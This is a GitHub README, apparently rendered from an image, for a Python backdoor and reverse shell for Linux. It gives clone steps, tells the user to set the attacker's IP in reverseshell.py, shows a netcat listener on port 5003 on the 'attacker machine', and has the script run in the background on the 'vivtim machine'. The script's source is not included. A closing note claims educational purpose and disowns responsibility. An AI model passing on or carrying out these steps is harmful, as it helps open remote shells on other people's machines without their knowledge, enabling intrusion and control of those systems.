 # ReverseShell | Written In ![Python](https://img.shields.io/badge/python-3670A0?style=for-the-badge&logo=python&logoColor=ffdd54)
- A python backdoor/reverseshell for linux.

![backd](https://raw.githubusercontent.com/Keyj33k/profiles/main/profile/backd_profile.jpeg)

## How to use?

Clone the repo:
```
git clone https://github.com/Keyj33k/ReverseShell.git
```

After successful cloning:
```
cd ReverseShell
```
## You will found a file called >> reverseshell.py:

- Now you need to change the ip in the script.

## After saving your settings you can test it:

- On the attacker machine:
```
nc -lnvp 5003
```
- or use the silentHill listener:
```
python3 silentHill.py
```
- On the vivtim machine:
```
python3 reverseshell.py &
```
# Explained:

![listener](https://raw.githubusercontent.com/Keyj33k/profiles/main/profile/reverseshell.jpeg)

Note:
- This tool is only for educational purposes. 
- I'm not responsible for your actions. 
- With great force follows great responsibility.
- Don't hack anyone without their permissions.
# Thank you

